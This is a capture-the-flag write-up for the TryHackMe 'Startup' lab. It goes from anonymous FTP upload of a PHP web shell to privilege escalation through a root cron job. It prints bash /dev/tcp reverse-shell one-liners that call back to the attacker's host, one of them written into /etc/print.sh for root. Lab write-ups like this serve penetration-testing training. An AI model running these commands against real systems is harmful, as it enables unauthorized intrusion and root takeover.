



# TryHackMe - Startup (Spice Hut) Writeup




##  Overview
This room involves:
- Enumeration (Nmap, FTP, Web)
- Gaining initial access via FTP + web shell
- Privilege escalation via insecure cron job

---

#  1. Enumeration

## Nmap Scan

```bash
rustscan <IP> -- -sC -sV -A
````

### Open Ports:

* 21 → FTP (vsftpd 3.0.3)
* 22 → SSH
* 80 → HTTP (Apache)

---

#  2. FTP Enumeration

## Login as anonymous

```bash
ftp <IP>
Name: anonymous
Password: 
```

## Files found:

```bash
ls -la
```

* `.test.log`
* `important.jpg`
* `notice.txt`
* `ftp/` (writable directory)

---

## Download files

```bash
get .test.log
get important.jpg
get notice.txt
```

---

## Read notice.txt

```bash
cat notice.txt
```

Clue:

> “Maya is looking pretty sus”

---

#  3. Web Enumeration

Visit:

```
http://<IP>
```

→ Maintenance page



---

## Directory brute force

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Found:

```
/files
```



---

## /files maps to FTP directory

This confirms:
👉 FTP directory is exposed via web

---

#  4. Upload Web Shell

## Go back to FTP

```bash
ftp <IP>
cd ftp
```

## Upload PHP shell

```bash
put web.php
```
this is the easy PHP shell i used :
`
https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
`


---

## Access in browser

```
http://<IP>/files/ftp/web.php
```

 You now have command execution

---

#  5. Get Reverse Shell

## On your machine:

```bash
nc -lvnp 8888
```

## In web shell:

```bash
bash -i >& /dev/tcp/<YOUR_IP>/8888 0>&1
```

Or you can direectly use  : `https://github.com/pentestmonkey/php-reverse-shell` which helps us to gain reverse shell on you terminal

---

## Upgrade shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
because normal shell will not allow you to escalate privileges

---

#  6. Post Exploitation

## Check users

```bash
ls /home
```

Found:

```
lennie
```

while enumuration thourgh we found `/incidents` in which we found an strange `suspicious.pcapng` file so quickly we need to analyze it

#  7. Analyze PCAP File

Copy file:

```bash
cp /incidents/suspicious.pcapng /var/www/html/files/ftp/
```

Download and open in Wireshark

---

## Find credentials

Inside traffic:
→ Password for user `lennie`

---

#  8. Switch User

```bash
su - lennie
```

Enter password

---

## Get user Flag

```bash
cat ~/user.txt
```
**THM{REDACTED}**

---

#  9. Privilege Escalation

## Check scripts

```bash
cd /home/lennie/scripts
ls
```

Files:

* `planner.sh`
* `startup_list.txt`

---

## Read planner.sh

```bash
cat planner.sh
```

```bash
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

---

## Key observation

* Script runs `/etc/print.sh`
* Executed by root via cron

---

## Check permissions

```bash
ls -l /etc/print.sh
```

```bash
-rwx------ 1 lennie lennie
```

- Owned by lennie and we are currently lennie
- Executed by root

 **Vulnerability: User-controlled script executed as root**

---

#  10. Exploit

## Replace file

```bash
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > /etc/print.sh
```

---

## Make executable

```bash
chmod +x /etc/print.sh
```

---

## Start listener on your Terminal

```bash
nc -lvnp 4444
```

---

## Wait for cron (1 minute)

Cron runs:

```bash
* * * * * /home/lennie/scripts/planner.sh
```

---

#  11. Root Access

You receive:

```bash
root@startup:~#
```

---

## Get root flag

```bash
cat /root/root.txt
```
**THM{REDACTED}**

---

#  Summary

## Vulnerability:

* Insecure cron job
* Root executes user-controlled script

## Exploit chain:

1. FTP → upload shell
2. Web → reverse shell
3. PCAP → creds
4. User → lennie
5. Modify `/etc/print.sh`
6. Cron executes as root

---

# 🏁 Final Flags

* User: 
* Root: 

---

#  Key Takeaway

> If root runs a script you can edit → you are root.
